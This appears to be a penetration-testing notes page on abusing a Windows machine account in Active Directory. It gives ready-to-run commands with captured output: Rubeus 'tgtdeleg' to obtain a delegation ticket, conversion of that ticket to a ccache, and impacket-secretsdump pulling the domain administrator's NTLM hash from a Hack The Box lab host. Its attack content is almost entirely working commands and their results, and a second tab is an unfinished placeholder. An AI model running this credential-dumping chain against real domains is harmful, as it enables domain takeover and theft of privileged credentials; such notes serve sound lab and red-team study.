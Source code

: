 ```yaml
---
title: "Machine Account"
date: 2024-8-1
tags: ["Kerberos", "Credential Dumping", "Pass-The-Ticket", "Rubeus", "Ticket Granting Ticket", "Domain Controller", "Machine Account", "Microsoft Virtual Account", "Active Directory", "Windows"]
---
```


### Abuse #1: Microsoft virtual account

#### 1. Create a ticket from Microsoft virtual account

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
.\rubeus.exe tgtdeleg /nowrap /ptt
```

```console {class="sample-code"}
PS C:\programdata> .\rubeus.exe tgtdeleg /nowrap /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/g0.flight.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: W4jpmQuUqxCWpBh7QpPEkePICUi1mU/91EaqO2SfUgs=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFVDCCBV ...[SNIP]... lHSFQuSFRC
```

{{< /tabcontent >}}

#### 2. Secrets Dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Convert kirbi to ccache

```console
python3 rubeustoccache.py '<BASE64_TICKET>' secrets.kirbi secrets.ccache
```

```console {class="sample-code"}
$ python3 rubeustoccache.py 'doIFVDCCBV ...[SNIP]... lHSFQuSFRC' secrets.kirbi secrets.ccache
╦═╗┬ ┬┌┐ ┌─┐┬ ┬┌─┐  ┌┬┐┌─┐  ╔═╗┌─┐┌─┐┌─┐┬ ┬┌─┐
╠╦╝│ │├┴┐├┤ │ │└─┐   │ │ │  ║  │  ├─┤│  ├─┤├┤ 
╩╚═└─┘└─┘└─┘└─┘└─┘   ┴ └─┘  ╚═╝└─┘┴ ┴└─┘┴ ┴└─┘
              By Solomon Sklash
          github.com/SolomonSklash
   Inspired by Zer1t0's ticket_converter.py

[*] Writing decoded .kirbi file to secrets.kirbi
[*] Writing converted .ccache file to secrets.ccache
[*] All done! Don't forget to set your environment variable: export KRB5CCNAME=secrets.ccache
```

#### 2. Secrets Dump

```console
export KRB5CCNAME=secrets.ccache
```

```console {class="sample-code"}
$ export KRB5CCNAME=secrets.ccache
```

```console
sudo ntpdate -s <DC> && impacket-secretsdump <TARGET> -k -no-pass -just-dc-user administrator
```

```console {class="sample-code"}
$ sudo ntpdate -s g0.flight.htb && impacket-secretsdump g0.flight.htb -k -no-pass -just-dc-user administrator

Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::
...[SNIP]...
[*] Cleaning up..
```

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. TO-DO

```console
TO-DO
```

{{< /tabcontent >}}
